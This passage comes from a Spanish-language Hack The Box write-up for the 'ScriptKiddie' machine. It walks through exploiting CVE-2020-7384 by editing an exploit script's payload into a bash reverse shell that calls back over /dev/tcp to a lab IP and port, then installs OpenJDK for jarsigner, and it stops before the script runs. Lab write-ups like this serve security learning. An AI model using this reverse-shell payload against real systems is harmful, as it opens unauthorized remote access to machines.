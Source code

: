 ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/SCRIPTKIDDIE/images/6.png)

Vemos que esta registrado como el CVE 2020-7384, leyendo el codigo se puede entender que te genera un .apk malicioso y que en la variable payload se inyecta el comando que quieres ajacutar remotamente.

entonces en el campo payload vamos a mandar una reverse shell a nuestro equipo, actualizamos en valor de payload:

* IP de nuestro equipo: 10.10.14.235
* puerto al que estaremos a la escucha: 4455

```
payload = "/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.14.235/4455 0>&1\""
```

como estamos haciendo uso de comillas dobles dentro de unas comillas dobles tenemos dos opciones para que lo interprete bien, o cambiamos por comillas simples o las escapamos, es decir agregar un '\' antes de cada comilla. Asi indicamos que es una comilla.

guardamos los cambios y ahora instalamos el jarsigner que es necesario para el script y yo nolo tenia instalado:

```
sudo apt install openjdk-11-jdk
sudo update-alternatives --config java
(escogemos la version instalada en este caso 11 en modo maual)
```

ya con eso instalado podemos ejecutar el script en python:
